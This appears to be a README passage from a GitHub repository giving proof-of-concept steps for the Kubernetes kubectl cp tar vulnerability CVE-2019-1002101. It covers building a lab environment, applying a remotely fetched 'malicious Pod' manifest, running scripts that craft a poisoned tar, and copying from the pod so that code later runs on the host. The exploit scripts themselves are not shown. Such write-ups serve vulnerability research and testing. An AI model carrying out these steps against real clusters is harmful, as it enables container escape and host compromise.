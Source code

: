## Proof of Concept

To perform the Proof of Concept, please follow the below steps:

1. Prepare the environment using the following command in metarget's folder : `./metarget cnv install cve-2016-5195`
2. Prepare the malicious Pod using the following command: `kubectl apply -f https://raw.githubusercontent.com/haseeb62/CVEs/main/CVE-2019-1002101/POC/ubuntu.yaml`
3. Exec in the pod and execute the scripts to prepare malicious files 
  `kubectl exec -it ubuntu -- /bin/bash`
  `./setupTar.sh`
  `./createPwnTar.sh`
  
  
4. In the host, execute a copy command to copy a file from the pod to the host:
`sudo kubectl cp ubuntu:/tmp/twist twist`
  

5. Open a new bash session and the command in line 17 of createPwnTar.sh will be executed successfully.


